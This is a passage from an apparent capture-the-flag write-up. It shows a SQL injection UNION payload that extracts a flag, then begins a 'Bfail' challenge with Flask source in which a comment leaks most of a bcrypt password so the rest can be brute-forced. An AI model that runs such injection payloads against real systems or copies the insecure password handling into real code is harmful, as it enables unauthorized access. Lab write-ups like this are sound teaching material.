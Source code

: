 
Then we get the flag with: 
```
3 UNION  SELECT * FROM (SELECT value from flag) UT1 JOIN  (SELECT id FROM pages WHERE content > 'A' AND content < 'U') UT2 JOIN (SELECT id FROM pages WHERE content > 'A' AND content < 'U') UT3;
```

## Bfail

In this challenge we have the following code. Bascally we have a strong password generated with bcrypt but they gave us 70 bytes which means that we need to get the final 2 bytes of the password. 

```py
from flask import Flask, request, redirect, render_template_string
import sys
import os
import bcrypt
import urllib.parse

app = Flask(__name__)
app.secret_key = os.urandom(16);
# This is super strong! The password was generated quite securely. Here are the first 70 bytes, since you won't be able to brute-force the rest anyway...
# >>> strongpw = bcrypt.hashpw(os.urandom(128),bcrypt.gensalt())
# >>> strongpw[:71]
# b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
app.ADMIN_PW_HASH = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
FLAG = open("flag.txt").read();

@app.route('/source')
def source():
    return open(__file__).read()

@app.route('/', methods=["GET"])
def index():

    username = request.form.get("username", None)
    password = request.form.get("password", None)

    if username and password:

        username = urllib.parse.unquote_to_bytes(username)
        password = urllib.parse.unquote_to_bytes(password)

        if username != b"admin":
            return "Wrong user!"

        if len(password) > 128:
            return "Password too long!"

        if not bcrypt.checkpw(password, app.ADMIN_PW_HASH):
            return "Wrong password!"

        return f"""Congrats! It appears you have successfully bf'ed the password. Here is your {FLAG}"""
    
    # Use f-string formatting within the template string
    template_string = """
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
```